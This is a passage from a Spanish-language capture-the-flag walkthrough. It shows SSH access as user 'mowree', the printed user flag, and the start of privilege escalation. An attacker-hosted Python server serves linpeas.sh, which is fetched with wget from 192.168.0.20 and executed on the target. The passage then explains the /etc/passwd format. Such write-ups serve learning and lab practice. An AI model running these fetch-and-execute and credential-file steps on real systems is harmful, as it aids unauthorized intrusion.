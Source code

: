 Y entramos al SSH:
- ![inputSSH](imagenes/inputSSH.png)

Entrando como el usuario "mowree" listamos con el comando:
```
ls
```
Podemos ver la flag del usuario llamado "user.txt" y con "cat" mostramos el contenido:
```
cat user.txt
```
Contenido de la flag del usuario:
- 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
- ![flaguser](imagenes/flaguser.png)

Es hora de elevar privilegios y obtener la flag del usuario root
Usamos "linpeas" es una herramienta de auditoria automatizada que permite recopilar informaciòn de posibles vectores de ataque: https://github.com/peass-ng/PEASS-ng/releases esta basado de bash "./linpeas.sh"

Para subir el archivo "linpeas.sh" al servidor ssh podemos utilizar filezilla o algo màs rapido levantar un servidor con python:
```
python3 -m http.server 8080
```

Procedemos a descargar el archivo en el servidor SSH:
```
wget http://192.168.0.20:8080/linpeas.sh
```
Damos permisos a linpeas Y ejecutamos linpeas:
```
chmod +x linpeas.sh
./linpeas.sh
```

La estructura de "/etc/passwd" esta estructurada de esta manera:
```
<nombre_de_usuario>:<contraseña_encriptada>:<UID>:<GID>:<información_del_usuario>:<directorio_home>:<shell>
```

Que significa cada parte:
- **<nombre_de_usuario>:** 
	- Este es el **nombre de usuario** de la cuenta. Es el nombre que se utiliza para iniciar sesión en el sistema.
- **<contraseña_encriptada>:** 
	- Este campo solía contener la **contraseña en texto plano**, pero en sistemas modernos (especialmente por razones de seguridad), las contraseñas no se almacenan aquí directamente.
- **< UID >:** 
	- Este es el **identificador único** del usuario (User ID). Cada usuario en el sistema tiene un UID único que es utilizado internamente por el sistema.
- **< GID >:** 
	- Este es el **identificador de grupo** (Group ID) del usuario. Es el identificador del grupo principal al que pertenece el usuario.
- **<información_del_usuario>:** 
	- Este campo contiene información adicional sobre el usuario, como su **nombre completo**, dirección, número de teléfono, etc.
- **<directorio_home>:** 
	- Este campo indica el **directorio home** del usuario, que es el directorio personal donde se encuentran los archivos y configuraciones del usuario.
- **< shell >:** 
	- El último campo especifica el **shell predeterminado** que el usuario usará al iniciar sesión. El shell es el programa que proporciona la interfaz de línea de comandos, como Bash, Zsh, etc.
